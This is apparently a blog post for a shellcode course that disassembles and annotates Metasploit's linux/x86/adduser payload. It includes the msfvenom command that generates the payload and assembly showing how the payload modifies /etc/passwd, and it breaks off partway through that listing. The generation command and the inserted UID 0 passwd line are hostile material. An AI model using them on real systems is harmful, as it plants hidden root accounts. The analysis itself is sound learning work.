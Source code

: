 ```yaml
---
layout: post
title: "SLAE Assignment #5 | Shellcode analysis of 3 msf payloads"
date: 2016-03-28
comments: true
categories:
---
```


An analysis of three shellcodes inner workings from the metasploit framework.

* [linux/x86/adduser](#adduser)
* [linux/x86/exec](#exec)
* [linux/x86/shell_find_port](#findPort)


## linux/x86/adduser <a name="adduser"></a>
*Create a new user with UID 0*

At a quick glance and over a reflection what needs to be done we can assume the following:

* /etc/passwd will be edited to have the new user inserted.
* The shellcode must have root rights to be able to modify the file.

The analysis with my comments inserted:

```
root@kali:~# msfvenom --platform=linux -a x86 -p linux/x86/adduser PASS=password USER=fisk | ndisasm -b 32 -p intel -k 43,34  -
No encoder or badchars specified, outputting raw payload
Payload size: 91 bytes

00000000  31C9              xor ecx,ecx //2nd argument = 0
00000002  89CB              mov ebx,ecx  //1nd argument = 0
00000004  6A46              push byte +0x46
00000006  58                pop eax // Set system call to 0x46=70=setreuid
00000007  CD80              int 0x80 // setreuid(0, 0); ie set operating proc. id to 0, root.

00000009  6A05              push byte +0x5
0000000B  58                pop eax // Set system call to 0x5=open
0000000C  31C9              xor ecx,ecx // ecx = 0
0000000E  51                push ecx // [esp] = 0
0000000F  6873737764        push dword 0x64777373 // dwss, reversed =sswd
00000014  682F2F7061        push dword 0x61702f2f // ap//, reversed = //pa
00000019  682F657463        push dword 0x6374652f // cte/, reversed = /etc
        
        esp: | /etc
             | //pa
             | sswd
             | 0000

0000001E  89E3              mov ebx,esp // 1nd argument points to esp.
00000020  41                inc ecx // ecx++, ecx=1
00000021  B504              mov ch,0x4 // ch = 0x4 --> ecx = 0x401 =  1025
00000023  CD80              int 0x80 //open("/etc//passwd",int flags=1025)

00000025  93                xchg eax,ebx //swap(eax,ebx), ebx=file descriptor
00000026  E822000000        call dword 0x4d
0000002B  skipping 0x22 bytes  

  root@kali:~/libemu-master/tools# dd skip=42 count=34 bs=1 < shellcode
  fisk:AzSzB2uy8JFlk:0:0::/:/bin/sh

0000004D  59                pop ecx // 2nd argument, ecx = return address for the call at 26, ie 2B.
```